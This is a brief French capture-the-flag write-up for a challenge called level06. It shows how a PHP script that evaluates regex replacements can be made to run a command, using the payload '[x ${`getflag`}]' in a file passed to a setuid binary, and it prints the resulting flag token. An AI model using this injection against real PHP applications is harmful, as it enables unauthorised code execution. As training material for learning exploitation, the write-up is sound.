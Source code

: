 Il y a deux fichier, un binaire et un script php.

Après décompilation le binaire nous indique qu'il éxécute le script php avec un execve sur le fichier passé en argument au binaire.

Le script PHP quand à lui récupére le contenu du fichier et modifie les lignes.

Donc avec la bonne syntaxe il est possible d'éxécuter un getflag : 

```bash
echo '[x ${`getflag`}]' > /tmp/flag06
```

```bash
./level06 /tmp/flag06
```

On obtient:
```bash
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```
